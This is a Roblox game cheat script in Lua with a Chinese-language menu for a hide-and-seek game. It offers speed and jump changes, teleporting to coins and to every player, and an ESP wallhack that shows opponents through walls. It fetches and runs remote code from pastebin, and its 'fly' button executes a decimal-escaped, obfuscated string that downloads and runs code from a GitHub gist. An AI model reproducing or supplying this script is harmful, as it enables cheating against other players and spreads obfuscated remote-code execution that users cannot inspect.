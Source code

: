 -- local 作者 = 工具人;local UI,lp = {},game:GetService'Players'.LocalPlayer;local tp = function(cframe) lp.Character.HumanoidRootPart.CFrame = cframe return cframe endUI.Lib = loadstring(game:HttpGet("https://pastebin.com/raw/Qedc1PaH", true))()UI.Main = UI.Lib:CreateWindow('极限捉迷藏')UI.WalkSpeed = UI.Main:Box('步行速度', {     flag = "ws";     type = 'number';},function(new, old, enter)     lp.Character.Humanoid.WalkSpeed = new;end);UI.JumpPower = UI.Main:Box('跳跃力', {     flag = "ws";     type = 'number';},function(new, old, enter)     lp.Character.Humanoid.JumpPower = new;end);UI.Main:Button('吃掉所有金币',function()     for i,v in pairs(game.Workspace:GetChildren()) do          if v.Name == 'GameObjects' then               for k,b in pairs(v:GetChildren()) do                    if v:FindFirstChild'Credit'then                         repeat wait()                              tp(b.CFrame)                         until b.Parent~='GameObjects'                    end               end          end     endend);UI.Main:Button('找到所有玩家[寻找者必备]',function()     for i,v in pairs(game.Players:GetPlayers())do          lp.Character.HumanoidRootPart.CFrame = game.Players[v.Name].Character.HumanoidRootPart.CFrame          wait(.1)          lp.Character.HumanoidRootPart.CFrame = game.Players[v.Name].Character.HumanoidRootPart.CFrame     endend);UI.Main:Button('飞行脚本',function()     loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\103\105\115\116\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\109\101\111\122\111\110\101\89\84\47\98\102\48\51\55\100\102\102\57\102\48\97\55\48\48\49\55\51\48\52\100\100\100\54\55\102\100\99\100\51\55\48\47\114\97\119\47\101\49\52\101\55\52\102\52\50\53\98\48\54\48\100\102\53\50\51\51\52\51\99\102\51\48\98\55\56\55\48\55\52\101\98\51\99\53\100\50\47\97\114\99\101\117\115\37\50\53\50\48\120\37\50\53\50\48\102\108\121\37\50\53\50\48\50\37\50\53\50\48\111\98\102\108\117\99\97\116\111\114\39\41\44\116\114\117\101\41\41\40\41\10\10")()end);UI.Main:Button('透视[寻找者必备]',function()      trans = 0.5warn ("....................................................................................")print ("                                ESP loaded. Enjoy!")warn ("....................................................................................")    while true do        for i,l in pairs(game:GetService("Players"):GetChildren()) do        if l ~= game:GetService("Players").LocalPlayer then        for i,v in pairs(l.Character:GetChildren()) do            if v.ClassName == "MeshPart" or "Part" and v.Name ~= "HumanoidRootPart" then            --                xd = Instance.new("SurfaceGui")                xd.Face = Enum.NormalId.Back            xd.Parent = v            xd.AlwaysOnTop = true            Frame = Instance.new("Frame")            Frame.Parent = xd            Frame.BackgroundColor3 = Color3.new(1, 1, 1)            Frame.Size = UDim2.new(1, 0, 1, 0)            Frame.BackgroundTransparency = trans                        if l.Team ~= game:GetService("Players").LocalPlayer.Team then                Frame.BackgroundColor3 = Color3.new(255,0 ,0)                else Frame.BackgroundColor3 = Color3.new(0, 255, 255)            end                        --                            xd = Instance.new("SurfaceGui")                xd.Face = Enum.NormalId.Bottom            xd.Parent = v            xd.AlwaysOnTop = true            Frame = Instance.new("Frame")            Frame.Parent = xd            Frame.BackgroundColor3 = Color3.new(1, 1, 1)            Frame.Size = UDim2.new(1, 0, 1, 0)            Frame.BackgroundTransparency = trans                        if l.Team ~= game:GetService("Players").LocalPlayer.Team then                Frame.BackgroundColor3 = Color3.new(255,0 ,0)                else Frame.BackgroundColor3 = Color3.new(0, 255, 255)            end            --                        xd = Instance.new("SurfaceGui")                xd.Face = Enum.NormalId.Front            xd.Parent = v            xd.AlwaysOnTop = true            Frame = Instance.new("Frame")            Frame.Parent = xd            Frame.BackgroundColor3 = Color3.new(1, 1, 1)            Frame.Size = UDim2.new(1, 0, 1, 0)            Frame.BackgroundTransparency = trans                        if l.Team ~= game:GetService("Players").LocalPlayer.Team then                Frame.BackgroundColor3 = Color3.new(255,0 ,0)                else Frame.BackgroundColor3 = Color3.new(0, 255, 255)            end                                    --                        xd = Instance.new("SurfaceGui")                xd.Face = Enum.NormalId.Left            xd.Parent = v            xd.AlwaysOnTop = true            Frame = Instance.new("Frame")            Frame.Parent = xd            Frame.BackgroundColor3 = Color3.new(1, 1, 1)            Frame.Size = UDim2.new(1, 0, 1, 0)            Frame.BackgroundTransparency = trans                        if l.Team ~= game:GetService("Players").LocalPlayer.Team then                Frame.BackgroundColor3 = Color3.new(255,0 ,0)                else Frame.BackgroundColor3 = Color3.new(0, 255, 255)            end            --                        xd = Instance.new("SurfaceGui")                xd.Face = Enum.NormalId.Right            xd.Parent = v            xd.AlwaysOnTop = true            Frame = Instance.new("Frame")            Frame.Parent = xd            Frame.BackgroundColor3 = Color3.new(1, 1, 1)            Frame.Size = UDim2.new(1, 0, 1, 0)            Frame.BackgroundTransparency = trans                    if l.Team ~= game:GetService("Players").LocalPlayer.Team then                Frame.BackgroundColor3 = Color3.new(255,0 ,0)                else Frame.BackgroundColor3 = Color3.new(0, 255, 255)            end            --                        xd = Instance.new("SurfaceGui")                xd.Face = Enum.NormalId.Top            xd.Parent = v            xd.AlwaysOnTop = true            Frame = Instance.new("Frame")            Frame.Parent = xd            Frame.BackgroundColor3 = Color3.new(1, 1, 1)            Frame.Size = UDim2.new(1, 0, 1, 0)            Frame.BackgroundTransparency = trans                                    if l.Team ~= game:GetService("Players").LocalPlayer.Team then                Frame.BackgroundColor3 = Color3.new(255,0 ,0)                else Frame.BackgroundColor3 = Color3.new(0, 255, 255)            end                                                        end        end        end        end            wait (5)        for i,v in pairs (game:GetService("Players"):GetChildren()) do            for i,k in pairs(v.Character:GetChildren()) do            for i,l in pairs(k:GetChildren()) do            if l.ClassName == "SurfaceGui" then                l:Remove()            end            end            end            end                    end  end);
